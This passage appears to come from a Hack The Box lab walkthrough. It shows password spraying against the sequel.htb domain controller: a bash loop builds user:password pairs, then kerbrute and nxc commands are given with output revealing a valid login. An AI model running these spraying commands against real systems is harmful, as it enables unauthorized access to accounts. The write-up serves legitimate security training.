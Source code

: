Since we have more passwords now, we can try password spraying against the previous users we found. We can use `kerbrute` to do this, as it is a great tool for password spraying against Kerberos. We could also use `nxc` to do this, but `kerbrute` is more efficient and faster. 

```bash
while IFS= read -r user; do
while IFS= read -r password; do
echo "${user}:${password}" >> user_pass
done < passwords
done < users
```
> Since we need a list on the format `username:password`, for `kerbrute` we can use a simple `while` loop to iterate over the users and passwords, creating a new file called `user_pass` with the format `username:password`.
> Command Breakdown:
> - `while IFS= read -r user; do`: This will read the users from the `users` file, one by one.
> - `while IFS= read -r password; do`: This will read the passwords from the `passwords` file, one by one.
> - `echo "${user}:${password}" >> user_pass`: This will append the username and password to the `user_pass` file, in the format `username:password`.
{: .prompt-info }

```bash

kerbrute bruteforce --dc $IP -d $DOMAIN ./user_pass

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 05/25/25 - Ronnie Flathers @ropnop

2025/05/25 18:41:37 >  Using KDC(s):
2025/05/25 18:41:37 >   10.10.11.51:88

2025/05/25 18:41:38 >  [+] VALID LOGIN:  oscar@sequel.htb:<REDACTED>
2025/05/25 18:41:39 >  Done! Tested 36 logins (1 successes) in 2.197 seconds
```

Or with `nxc`:

```bash
nxc smb $FQDN -u users -p passwords --continue-on-success

SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
<SNIP>
SMB         10.10.11.51     445    DC01             [+] sequel.htb\oscar:<REDACTED>
<SNIP>
48.476 total
```

>We can see that the `kerbrute` took 2.97 seconds while `nxc` took `48.476`
{: .prompt-info}
